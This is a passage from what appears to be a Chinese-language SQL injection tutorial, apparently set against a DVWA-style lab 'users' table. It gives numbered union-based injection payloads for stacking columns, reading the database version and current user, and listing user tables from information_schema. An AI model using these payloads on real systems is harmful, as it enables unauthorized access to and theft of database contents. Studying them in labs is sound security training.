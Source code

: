 2.联合注入

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 order by 1 union select 1,2 -- 
```

- 可以把两列数据竖着连起来

3.获取数据库的版本信息及用户

```sql
1' union select @@version,current_user() -- '
```

![image-20220417220245164](/img/security/image-20220417220245164.png)

4.查询用户表

```sql
1' union select table_schema, table_name FROM information_schema.tables WHERE table_name LIKE '%user%' -- '
```
